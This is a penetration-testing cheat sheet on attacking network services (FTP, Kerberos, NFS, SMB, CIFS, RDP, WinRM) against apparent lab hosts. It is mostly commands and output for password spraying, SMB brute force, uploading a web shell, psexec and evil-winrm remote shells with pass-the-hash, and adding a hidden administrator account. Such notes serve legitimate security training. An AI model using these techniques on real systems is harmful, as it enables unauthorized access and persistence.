 ```yaml
---
title: Services
description: How to pentest different services.
---
```


## FTP (port 21)

`nmap -p 21 --script=ftp-anon 10.10.174.58`

## Kerberos (port 88)

### Enumeration & bruteforce

[Kerbrute](https://github.com/ropnop/kerbrute) has four main commands:

- bruteuser - Bruteforce a single user's password from a wordlist
- bruteforce - Read username:password combos from a file or stdin and test them
- passwordspray - Test a single password against a list of users
- userenum - Enumerate valid domain usernames via Kerberos

See [AD - enumeration](/pentest/active-directory/02-enumeration/).


## RPC / NFS (port 111, 2049, 20048)

Interesting files : `/etc/nfs.conf`, `/etc/fstab` and `/etc/exports`

```bash
$ rpcinfo -p | grep nfs

100003    3   tcp   2049  nfs
100003    4   tcp   2049  nfs
100227    3   tcp   2049  nfs_acl
```

Nmap NSE :

```bash
$ sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.220.222
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 13:48 CET
Nmap scan report for 10.10.220.222
Host is up (0.035s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount:
|_  /var *
| nfs-statfs:
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836532.0  6877096.0  22%   16.0T        32000

Nmap done: 1 IP address (1 host up) scanned in 2.38 seconds
```

Show NFS mount

```bash
$ showmount -e 10.10.200.32
Export list for 10.10.200.32:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
$ sudo mkdir /mnt/nfs1
$ sudo mount -t nfs -o rw 10.10.200.32:/home/ubuntu/sharedfolder /mnt/nfs1
$ cd /mnt/nfs1
...
```

Mount NFS partition :

```
$ sudo mkdir /mnt/ntfs1
$ sudo mount -t nfs 10.10.220.222:/var /mnt/ntfs1
$ cd /mnt/ntfs1
$ ls
backups  cache  crash  lib  local  lock  log  mail  opt  run  snap  spool  tmp  www
```

## Samba (port 139, 445)

### List shares

```bash
$ sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.220.222
[...]
Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.220.222\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
[...]
```

```bash
$ crackmapexec smb 10.10.86.204 --shares
```

```
$ smbclient -L 10.10.86.204
Password for [MYGROUP\xanhacks]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk
SMB1 disabled -- no workgroup available
```

### Download / upload files

```bash
$ smbclient -U 'guest' '\\10.10.86.204\nt4wrksv'
Password for [MYGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 4932712 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> mput shell.aspx
Put file shell.aspx? y
putting file shell.aspx as \shell.aspx (40.5 kb/s) (average 40.5 kb/s)
```

### Recursive download

Recursively download all the files of the share using `smbget -R` :

```bash
$ smbget -R smb://10.10.220.222/anonymous
Password for [xanhacks] connecting to //anonymous/10.10.220.222: <press enter>
Using workgroup WORKGROUP, user xanhacks
smb://10.10.220.222/anonymous/log.txt
Downloaded 11.95kB in 1 seconds
```

### Bruteforce SMB

```
$ cme smb 10.10.10.182 -u users.lst -p passwords.list
[...]
```

### Shell over SMB (psexec.py)

How [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) works ?

1. Establishes an SMB network connection to a target system using administrator credentials
2. Pushes a copy of a receiver process named PSEXESVC.EXE to the target system’s ADMIN$ share
3. Launches PSEXESVC.EXE, which sends input and output to a named pipe

```bash
$ cme smb 10.10.10.182 -u administrator -p 'pass123'
SMB ... (Pwn3d!)
$ psexec.py administrator:pass123@10.10.10.182
[...]
C:\Windows\system32>
```

## CIFS (port 445)

CIFS (Common Internet File System) is a protocol that gained popularity around the year 2000, as vendors worked to establish an Internet Protocol-based file-sharing protocol.

CIFS is now considered obsolete, because most modern data storage systems use the more robust Server Message Block (SMB) 2.0 and 3.0 file-sharing protocols, which were major upgrades to CIFS.

### Mount partition

```bash
$ mkdir /mnt/data
$ sudo mount -t cifs -o 'user=r.thompson,password=admin123' //10.10.10.182/Data /mnt/data
```

## RDP (port 3389)

Windows user need to be in the `Remote Desktop Users` or `Administrators` group to use RDP.

```powershell
net user USERNAME PASSWORD /add
net localgroup Administrators USERNAME /add
net localgroup "Remote Management Users" USERNAME /add
```

RDP using `rdesktop` :

```bash
$ rdesktop -u <username> -p <password> <ip>
```

GUI using [remmina](https://remmina.org/).

## WinRM (port 5985)

Windows user need to be in the `Remote Management Users` group to use WinRM.

You can use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to obtain a remote shell.

To check :

```bash
$ cme winrm 10.200.10.196 -u administrator -p 'pass123'
WINRM ... (Pwn3d!)
```

Gain shell :

```bash
$ evil-winrm -i 10.200.10.196 -u administrator -p 'admin123'

$ evil-winrm -i 10.200.10.196 -u administrator -H '37db630168e5f82aafa8461e05c6bbd1'
```
